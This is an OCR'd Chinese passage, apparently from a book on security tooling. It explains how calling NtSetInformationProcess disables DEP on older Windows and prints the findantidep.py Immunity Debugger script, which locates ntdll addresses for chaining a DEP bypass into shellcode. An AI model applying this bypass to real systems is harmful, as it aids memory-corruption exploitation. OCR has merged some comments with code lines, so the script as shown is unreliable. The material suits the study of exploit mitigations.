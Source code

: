 上面的代码就是调用 NtSetInformationProces 的必要过程。首先比较 AL 和 1，把 2 弹入 ESI，紧接着是条件跳转到 0x7C93FEBA。在这里将 ESI 拷贝进栈 EBP-4（记得 ESI 始终是 2）。接着非条件跳转到 7C91D403。在这里将确认堆栈 EBP-4 的值非零。非零则跳转 到 0x7C935D6D。从这里开始变得有趣，4 被第一个压入栈，EBP-4（始终是 2!）被加载进 EAX， 然后压入栈，接着 0x22 被压入，最后-1 被压入（-1 表示禁止当前进程的 DEP）。剩下调用 ZwSetInformationProcess（NtSetInformationProcess 的别称）。上面的代码完成的功能相当于 下面的函数调用：

```py
NtSetInformationProcess( -1, 0x22, 0x2, 0x4 ) 
```

Perfect！这样进程的 DEP 就被取消了。在这之前有两项是必须注意的。第一 exploit 代 码得和地址 0x7C91D3F8 结合。第二执行到 0x7C91D3F8 之前，确保 AL 设置成 1.一旦满 足了这些条件，我们就能通过 JMP ESP 将控制权转移给我们的 shellcode。现在回顾三个必 须的地址：

一个地址将 AL 设置成 1 然后返回。 一个地址作为一连串反 DEP 代码的首地址。 一个地址将执行权限返回到我们 shellcode

在平常你需要手工的获取这些地址，不过 Immunity 提供了 findantidep.py 辅助我们完成 这项 。最后你将得到一个 exploit 字符串，将它与你自己的 exploit 结合，就能够使用了。接 下来看看 findantidep.py 代码，接下来将会使用它进行测试。

```py
# findantidep.py 
import immlib 
import immutils 
def tAddr(addr):
    buf = immutils.int2str32_swapped(addr)
    return "\\x%02x\\x%02x\\x%02x\\x%02x" % ( ord(buf[0]) , 
        ord(buf[1]), ord(buf[2]), ord(buf[3]) )
DESC="""Find address to bypass software DEP""" 
def main(args):
    imm=immlib.Debugger() 
    addylist = []
    mod = imm.getModule("ntdll.dll") 
    if not mod:
        return "Error: Ntdll.dll not found!"
    # Finding the First ADDRESS ret = imm.searchCommands("MOV AL,1\nRET") 
    if not ret:
        return "Error: Sorry, the first addy cannot be found" 
    for a in ret:
        addylist.append( "0x%08x: %s" % (a[0], a[2]) )
    ret = imm.comboBox("Please, choose the First Address [sets AL to 1]", addylist)
    firstaddy = int(ret[0:10], 16)
    imm.Log("First Address: 0x%08x" % firstaddy, address = firstaddy)
    # Finding the Second ADDRESS ret = imm.searchCommandsOnModule( mod.getBase(), "CMP AL,0x1\n PUSH 0x2\n
    POP ESI\n" )
    if not ret:
        return "Error: Sorry, the second addy cannot be found" 
    secondaddy = ret[0][0]
    imm.Log( "Second Address %x" % secondaddy , address= secondaddy )
    # Finding the Third ADDRESS ret = imm.inputBox("Insert the Asm code to search for") 
    ret = imm.searchCommands(ret)
    if not ret:
        return "Error: Sorry, the third address cannot be found" 
    addylist = []
    for a in ret:
        addylist.append( "0x%08x: %s" % (a[0], a[2]) )
    ret = imm.comboBox("Please, choose the Third return Address [jumps to shellcode]", addylist)
    thirdaddy = int(ret[0:10], 16)
    imm.Log( "Third Address: 0x%08x" % thirdaddy, thirdaddy ) 
    imm.Log( 'stack = "%s\\xff\\xff\\xff\\xff%s\\xff\\xff\\xff\\xff" + "A" * 0x54 + "%s" + shellcode ' %\
        ( tAddr(firstaddy), tAddr(secondaddy), tAddr(thirdaddy) ) ) 
```
